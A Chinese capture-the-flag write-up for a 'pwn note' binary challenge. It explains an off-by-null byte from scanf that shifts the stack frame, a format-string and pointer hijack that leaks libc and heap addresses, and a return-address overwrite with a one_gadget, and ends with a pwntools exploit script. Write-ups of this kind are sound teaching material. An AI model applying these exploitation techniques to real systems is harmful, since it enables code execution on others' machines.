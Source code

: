 ## pwn note ##
### 1.题目分析： ###
isoc99\_scanf函数读入结束有两种情形。</br>
1.遇到一些特殊控制字符（如：0x0a,0x0b,0x0c,0x0d,0x20)。</br>
2.读完所有内容。</br>
之后会在末尾字符写入一个'\x00'作为终止字符。</br>
因此，该题目在**edit_note**函数中存在**off by null**漏洞。

### 2.关键地址泄露 ###
具体溢出点如图所示：</br>
![avatar](https://raw.githubusercontent.com/fade-vivida/picture/master/note1.png)</br>
当读入字符串长度为256时，isoc99\_scanf会读入一个'\x00'到末尾，可以看到将会覆盖rbp的最后一个字节，抬高栈帧。

在主函数中，再次调用isoc99\_scanf函数时，由于栈帧被抬高，此时v6(rbp-0x10)已经不在是指向原来的位置，而是指向了之前在edit_note中用户输入数据中。因此我们可以随意控制这个格式化串（使其不再为%d），同理也可以控制参数v7。</br>
![avatar](https://raw.githubusercontent.com/fade-vivida/picture/master/note2.png)</br>
在这有两种利用思路：</br>
1.将v7指向内容修改为某函数的got表地址，那么再次调用命令2(show\_note)，就可以泄露出libc的地址。</br>
2.将v7指向内容修改为hFile，再次调用命令2（show\_note)，泄露出堆地址。

### 3.漏洞利用 ###
两种利用方式：</br>

1.**isoc99\_scanf函数没有cannry保护，isoc99\_scanf函数没有cannry保护，isoc99\_scanf函数没有cannry保护！！！**一个十分重要的点，切记切记。因此，由于此时栈帧被抬高，option变量指向的地址远远高于isoc99\_scanf函数新建立的栈帧，因此读数据时，可以通过覆盖isco99\_scanf函数的返回地址为one_gadget实现程序流控制。<br/>

2.方法2目前无法使用。。。。。。。。。。。。。。。。。。。。。。。。。。。大体思路为：修改格式化串为自己输入的内容，然后可以在栈中写入数据。但目前遇到问题是，栈中空间布局完全无法估计。

### 4.利用代码 ###
```

	def hack():	
		format_s = 0x401129
		puts_got = pwn_elf.got['puts']
		sla('ID:','1'*0x100)
		payload = 'A'*0xa8 + p64(format_s)
		payload = payload.ljust(0x100,'A')
		edit_note(payload)
		
		payload = p32(2) + p64(format_s) + p64(puts_got)
		sla('> ',payload)
		ru('Note:')
		puts_addr = u64(rv(6).ljust(8,'\x00'))
		lg('puts_addr',puts_addr)
		libc.address = puts_addr - libc.symbols['puts']
		lg('libc_addr',libc.address)
		system_addr = libc.symbols['system']
		lg('system_addr',system_addr)
		one_gadget = libc.address + 0x4526a
		
		file = 0x602140
		payload = p32(2) + p64(format_s) + p64(file)
		sla('> ',payload)
		ru('Note:')
		file_ptr = u64(rv(4).ljust(8,'\x00'))
		lg('file_ptr',file_ptr)
		
		#方法1：覆盖scanf函数返回地址为one_gadget
		payload = 'A'*0x64 + p64(one_gadget)
		sla('> ',payload)
		
		#方法2：覆盖scanf函数返回地址为one_gadget
		
		p.interactive()

```
